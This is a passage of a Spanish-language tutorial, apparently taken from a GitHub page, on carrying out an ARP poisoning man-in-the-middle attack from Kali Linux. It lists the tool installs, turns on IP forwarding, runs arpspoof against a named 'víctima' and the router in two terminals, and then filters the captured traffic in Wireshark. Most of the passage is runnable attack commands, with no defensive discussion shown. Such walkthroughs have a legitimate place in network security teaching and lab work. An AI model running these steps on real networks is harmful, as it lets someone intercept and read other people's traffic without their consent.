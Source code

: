 Kali ya incluye muchas herramientas. Asegúrate de tener estas:

```bash
sudo apt update
sudo apt install dsniff ettercap-graphical wireshark
```

---

### 🧪 Ejemplo completo: Ataque ARP Poisoning con `arpspoof`

#### 🎯 Escenario de red (LAN)

- Router: `192.168.1.1`
- Víctima: `192.168.1.10`
- Atacante (Kali): `192.168.1.100`

---

#### 1️⃣ Habilitar reenvío de paquetes (IP Forwarding)

Esto permite que Kali actúe como un puente entre la víctima y el router.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

---

#### 2️⃣ Abrir 2 terminales: uno para cada dirección

##### Terminal 1: Engañar al **router**

```bash
arpspoof -i eth0 -t 192.168.1.1 192.168.1.10
```

🔁 Le dices al router: “Yo (el atacante) soy la víctima”.

#### Terminal 2: Engañar a la **víctima**

```bash
arpspoof -i eth0 -t 192.168.1.10 192.168.1.1
```

🔁 Le dices a la víctima: “Yo (el atacante) soy el router”.

> 🔧 Cambia `eth0` por el nombre de tu interfaz de red si es diferente (puedes verlas con `ip a`).

---

#### 3️⃣ Abre **Wireshark** para analizar el tráfico

Filtra solo los paquetes HTTP (si hay) o DNS:

```plaintext
http || dns
```

✅ Verás tráfico de la víctima pasando por tu máquina.

---